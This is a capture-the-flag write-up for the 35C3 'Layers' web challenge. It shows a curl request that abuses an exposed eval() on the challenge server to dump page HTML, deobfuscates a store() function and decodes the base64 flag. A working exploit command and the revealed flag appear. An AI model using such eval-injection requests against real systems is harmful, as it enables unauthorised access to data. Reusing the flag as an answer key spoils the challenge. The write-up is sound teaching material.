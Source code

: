 # Layers

> Solves: 28

> An engineer added a special kind of token to our server: the LAYERS token is unique and there is no way to ever extract it. This means, if anybody every searches for it on the internet or submits it here, we know we have, like, a mole, or something. Dunno. Well we believe it cannot be extracted - so don't even bother.
> http://35.207.132.47/

> Difficulty estimate: Hard

This is one of the [Wee](../Wee) challenges.

## Analysis

The only mention of the `LAYERS` token can be found inside `weeterpreter.ts`.

```typescript
const pagePromise: Promise<puppeteer.Page> = new Promise(async (resolve, reject) => {
    try {
        const browser = await browserPromise
        const page = await browser.newPage()
        await page.setRequestInterception(true)
        page.on('request', r=> (r.url().startsWith("file://") && (
                r.url().endsWith("weelang/pypyjs.html") ||
                r.url().endsWith("lib/FunctionPromise.js") ||
                r.url().endsWith("lib/pypyjs.js") ||
                r.url().endsWith("lib/pypyjs.vm.js") ||
                r.url().endsWith("lib/pypyjs.vm.js.zmem")
            ) ? r.continue() : r.abort() && console.log("blocked", r.url()))
        )
        await page.goto(`file:///${__dirname}/pypyjs.html`, {waitUntil: 'networkidle2'})
        await page.evaluate(`store('${flags.LAYERS}')`)
        resolve(page)
    } catch (e) {
        reject(e)
    }
})
```

What is that `store()` function and what is all that `pypyjs` business? We can
find that out using the `eval()` function exposed in Wee. Let's see where that
takes us.

## Solution

```
liquid$> curl -X POST http://35.207.132.47/wee/run -d '{ "code": "alert(eval(\"document.documentElement.innerHTML\"))" }'
{"code":"alert(eval(\"document.documentElement.innerHTML\"))","result":"<head>\n    <title>Secure Python</title>\n    <meta content=\"text/html; charset=utf-8\" http-equiv=\"Content-Type\">\n    <meta charset=\"utf-8\">\n    <script src=\"node_modules/pypyjs/lib/FunctionPromise.js\" type=\"text/javascript\"></script>\n    <script src=\"node_modules/pypyjs/lib/pypyjs.js\" type=\"text/javascript\"></script>\n<script>\n\n
function py_eval(code) {\n        //console.log(\"exec: '\" + code + \"'\");\n        //console.log(\"pypy loaded\");\n        stdout = \"\"\n        stderr = \"\"\n        pypyjs.stdout = x => stdout += x\n
  pypyjs.stderr = x => stderr += x\n        try {\n            pypyjs.exec(`print(${code})`)\n            //console.log(\"Rsp:\", response)\n            return stdout + stderr\n        } catch (err) {\n //console.log(\"ERROR: \"+err.name+\": \"+err.message+\"!)\")\n            //console.log(err.trace); // the human-readable traceback, as a string\n            return stderr + err.trace\n        }\n    }\n\n    pypyjs.ready()\n\n    function store(x) {\n        var d = document\n        var _0x68de=[\"\\x62\\x74\\x6F\\x61\"]\n        var x=window[_0x68de[0]](x)\n        var _0x2d8a = [\n            \"\\x69\\x6E\\x6E\\x65\\x72\\x54\\x65\\x78\\x74\",\n            \"\\x66\\x75\\x6E\",\n            \"\\x67\\x65\\x74\\x45\\x6C\\x65\\x6D\\x65\\x6E\\x74\\x42\\x79\\x49\\x64\"\n        ]\n        d[_0x2d8a[2]](_0x2d8a[1])[_0x2d8a[0]] = x\n
   }\n\n    function store_py(x) {\n        py_eval(`x=${x}`)\n    }\n</script>\n</head>\n<body>\n<div id=\"fun\">MzVDM19IT1dfREVFUF9USEVfUkFCQklUX0hPTEVfR08zUw==</div>\n\n</body>\n"}
```

Not exacly pretty, is it? Let's format it nicer and unescape.

```html
<head>
    <title>Secure Python</title>
    <meta content="text/html; charset=utf-8" http-equiv="Content-Type">
    <meta charset="utf-8">
    <script src="node_modules/pypyjs/lib/FunctionPromise.js" type="text/javascript"></script>
    <script src="node_modules/pypyjs/lib/pypyjs.js" type="text/javascript"></script>
<script>


function py_eval(code) {
        //console.log("exec: '" + code + "'");
        //console.log("pypy loaded");
        stdout = ""
        stderr = ""
        pypyjs.stdout = x => stdout += x

  pypyjs.stderr = x => stderr += x
        try {
            pypyjs.exec(`print(${code})`)
            //console.log("Rsp:", response)
            return stdout + stderr
        } catch (err) {
 //console.log("ERROR: "+err.name+": "+err.message+"!)")
            //console.log(err.trace); // the human-readable traceback, as a string
            return stderr + err.trace
        }
    }

    pypyjs.ready()

    function store(x) {
        var d = document
        var _0x68de=["\x62\x74\x6F\x61"]
        var x=window[_0x68de[0]](x)
        var _0x2d8a = [
            "\x69\x6E\x6E\x65\x72\x54\x65\x78\x74",
            "\x66\x75\x6E",
            "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64"
        ]
        d[_0x2d8a[2]](_0x2d8a[1])[_0x2d8a[0]] = x

   }

    function store_py(x) {
        py_eval(`x=${x}`)
    }
</script>
</head>
<body>
<div id="fun">MzVDM19IT1dfREVFUF9USEVfUkFCQklUX0hPTEVfR08zUw==</div>

</body>
```

If we deobfuscate the `store` function we get:

```js
function store(x) {
  d.geElementById("fun").innerText = btoa(x)
}
```

This means that `#fun` contains our flag encoded with base64. We can decode it
easily:

```
liquid$> echo MzVDM19IT1dfREVFUF9USEVfUkFCQklUX0hPTEVfR08zUw== | base64 -d
35C3_HOW_DEEP_THE_RABBIT_HOLE_GO3S
```
